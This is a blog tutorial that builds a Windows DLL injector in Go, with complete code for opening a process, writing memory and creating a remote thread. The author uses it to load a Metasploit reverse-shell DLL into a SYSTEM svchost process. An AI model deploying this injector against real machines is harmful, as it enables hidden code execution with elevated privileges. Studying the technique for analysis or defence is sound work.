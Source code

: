 ```yaml
---
title: DLL Injection
permalink: /posts/DLLInjection
permalink_name: DLLInjection
---
```


The first technique I decided to implement was DDL injection. Again, the implementation is going to be in Go.

First thing first, the general idea behind DLL injection is fairly simple. 
When a DLL is loaded into a process, the DLLMain entrypoint is executed. If we can load a DLL into a target process, possibly one running with higher privileges or anyway trusted by the OS, explorer.exe or svchost.exe for example, we could get code execution within that process context.

There are generally two ways to go about DLL injection. Either you load the path to the DLL into the target memory and then call `LoadLibraryA` on it, or you load the entire DLL, locate its entrypoint, and start a thread to run from there.
I decided to go the first way because that is the way it was described in Practical Malware Analysis.

Now onto the actual implementation.

First of all, we need to be able to get a handle on the process we want to inject.
To do that, we'll take a snapshot of the currently running processes with the `CreateToolhelp32Snapshot`. The `TH32CS_SNAPPROCESS` parameter allows us to enumerate all processes on the system.
We can then use `Process32First` to get a pointer to the first `PROCESSENTRY32` and `Process32Next` to iterate through all the entries. Since we are running a 64-bit process and enumerating other 64-bits processes, simply checking the `szExeFile` attribute of the `PROCESSENTRY32` struct will give us the executable name for the process, which we can then check to see if it matches what we are looking for.

```
processesSnap, err := windows.CreateToolhelp32Snapshot(windows.TH32CS_SNAPPROCESS, 0)
defer windows.CloseHandle(processesSnap)
if err != nil {
	log.Fatal(err)
}
var pe32 windows.ProcessEntry32
pe32.Size = uint32(unsafe.Sizeof(pe32))
err = windows.Process32First(processesSnap, &pe32)
if err != nil {
	log.Fatal(err)
}
for {
	if pe32.ProcessID > 0 {
		processName := windows.UTF16PtrToString(&pe32.ExeFile[0])
		if processName == target {
			targetIDs = append(targetIDs, pe32.ProcessID)
		}
	}
	err = windows.Process32Next(processesSnap, &pe32)
	if err != nil {
		break
	}
}
```

As you can see, I am not stopping at the first match. Rather, I store all of them and then try to inject them all until one works. I do this because some SYSTEM processes seem not to be injectable, notably some instances of svchost.exe.

Armed with the PID of the victim process, we now can go ahead and get a handle for it. During my tests, I found that `PROCESS_CREATE_THREAD`, `PROCESS_VM_WRITE`, `PROCESS_VM_READ`, `PROCESS_VM_OPERATION` are the minimum access rights required to successfully perform DLL injection. This is better than `PROCESS_ALL_ACCESS` that sometimes pops up but still will require to get `SeDebugPrivilege` in some cases. I will discuss that in a later post.

```
victimProcess, err := windows.OpenProcess(
	windows.PROCESS_CREATE_THREAD|
		windows.PROCESS_VM_WRITE|
		windows.PROCESS_VM_READ|
		windows.PROCESS_VM_OPERATION,
	false, targetID)

defer windows.CloseHandle(victimProcess)
```

Once we have a handle for the process, we need to allocate enough space on the memory of the victim process to fit the path to the DLL we want to inject. We can do this with `VirtualAllocEx`. A pattern that will come up more often is that the functions I need are not defined in the `windows` Go package, so I have to manually load them.

```
var (
	kernel32DLL        = windows.NewLazyDLL("kernel32.dll")
	virtualAllocEx     = kernel32DLL.NewProc("VirtualAllocEx")
	writeProcessMemory = kernel32DLL.NewProc("WriteProcessMemory")
)
dwSize := uint32(len(targetDLL))
addr, _, err := virtualAllocEx.Call(
	uintptr(victimProcess),
	uintptr(unsafe.Pointer(nil)),
	uintptr(dwSize),
	uintptr(windows.MEM_RESERVE|windows.MEM_COMMIT),
	uintptr(windows.PAGE_EXECUTE_READWRITE))
if addr == 0 {
	fmt.Println("[-] virtualAllocEx returned NULL")
	log.Fatal(err)
}
```

`VirtuallAllocEx` returns a pointer to the beginning of the region we allocated on the target process. This means we can also use this pointer as a starting point to copy our DLL path with `WriteProcessMemory` (also not pre-defined).

```
buffer := []byte(targetDLL)
var writtenBytes uint64 = 0
r1, _, err := writeProcessMemory.Call(
	uintptr(victimProcess),
	uintptr(addr),
	uintptr(unsafe.Pointer(&buffer[0])),
	uintptr(dwSize),
	uintptr(unsafe.Pointer(&writtenBytes)),
)
if r1 == 0 {
	fmt.Println("[-] writeProcessMemory failed")
}
fmt.Printf("[+] Written %d bytes to remote process\n", writtenBytes)
```

We now need to get the address of `LoadLibraryA`, defined in `kernel32.dll` so that we can later start a new thread to execute it. Interestingly, getting the address of the functions in the local process rather than in the remote one works fine. You can find out more why in (this Stackoverflow thread)[https://stackoverflow.com/questions/22750112/dll-injection-with-createremotethread]. Because of this, getting the address of `LoadLibraryA` is as simple as calling `GetProcAddress`.

```
moduleName, err := windows.UTF16FromString("kernel32.dll")
if err != nil {
	log.Fatal(err)
}
var kernel32Module windows.Handle
err = windows.GetModuleHandleEx(0, &moduleName[0], &kernel32Module)
if err != nil {
	log.Fatal(err)
}
loadLibrary, err := windows.GetProcAddress(kernel32Module, "LoadLibraryA")
if err != nil {
	log.Fatal(err)
}
```

Finally, we can launch a new thread to execute `LoadLibraryA`, using the DLL path we wrote to the remote memory as an argument. We can use `CreateRemoteThread` to launch a thread in a remote process, passing the address of `LoadLibraryA` as `lpStartAddress` and the address we got from `VirtuallAllocEx` as `lpParameter`.

```
createRemoteThread := kernel32DLL.NewProc("CreateRemoteThread")
r1, _, err = createRemoteThread.Call(
	uintptr(victimProcess),
	uintptr(unsafe.Pointer(nil)),
	0,
	loadLibrary,
	addr,
	0,
	uintptr(unsafe.Pointer(nil)))
if r1 == 0 {
	fmt.Println("[-] Failed to launch remote thread")
	log.Fatal(err)
}
handle := windows.Handle(r1)
windows.WaitForSingleObject(handle, windows.INFINITE)
```

I created a DLL reverse shell with Metasploit for testing, and lo and behold, it works!
As you can see in the picture, I injected a SYSTEM process (svchost.exe) to launch a reverse shell to an Ubutnu box, where I catch it and get, indeed, a SYSTEM shell. Also, in Process Explorer, you can verify that the process does not show.


<img src="/assets/images/dllinject.png" alt="DLL injection succeeds" margin=0 250px 0/>
